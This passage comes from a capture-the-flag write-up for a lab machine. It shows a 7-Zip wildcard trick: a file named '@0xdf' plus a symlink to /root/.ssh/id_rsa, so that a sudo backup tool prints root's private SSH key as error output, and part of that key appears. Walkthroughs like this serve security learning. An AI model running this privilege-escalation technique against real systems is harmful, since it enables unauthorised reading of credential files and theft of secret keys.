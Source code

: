 ### Exploit

Wildcards (`*`) in commands are often dangerous. Searching for “7za wildcard exploit” I’ll find [this HackTricks page](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks#id-7z) with a section on 7z.

The attack is to create a file named `@whatever`, and then another one named `whatever` that is a symbolic link to the file I want to read.

When 7z processes the wildcard, it will look like:

```

/usr/bin/7za a /var/backups/project.zip -tzip -snl -mmt -- @whatever whatever [otherfiles]

```

7z will process `@whatever` as a marker to read the contents of `whatever` as a list of files to include. When the content of that file isn’t a list of file names, it will print the contents as errors.

Like this:

![image-20240712174348207](/img/image-20240712174348207.png)

I can do the same thing to get `/root/.ssh/id_rsa`:

```

xander@usage:/var/www/html$ touch @0xdf; ln -fs /root/.ssh/id_rsa 0xdf
xander@usage:/var/www/html$ sudo usage_management
Choose an option:
1. Project Backup
2. Backup MySQL data
3. Reset admin password
Enter your choice (1/2/3): 1

7-Zip (a) [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,2 CPUs AMD EPYC 7302P 16-Core Processor                (830F10),ASM,AES-NI)

Open archive: /var/backups/project.zip
--
Path = /var/backups/project.zip
Type = zip
Physical Size = 54829609

Scanning the drive:
WARNING: No more files
-----BEGIN OPENSSH PRIVATE KEY-----

WARNING: No more files
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW

WARNING: No more files
QyNTUxOQAAACC20mOr6LAHUMxon+edz07Q7B9rH01mXhQyxpqjIa6g3QAAAJAfwyJCH8Mi

...[snip]...

WARNING: No more files
-----END OPENSSH PRIVATE KEY-----

2984 folders, 17946 files, 113879189 bytes (109 MiB)

Updating archive: /var/backups/project.zip

Items to compress: 20930
```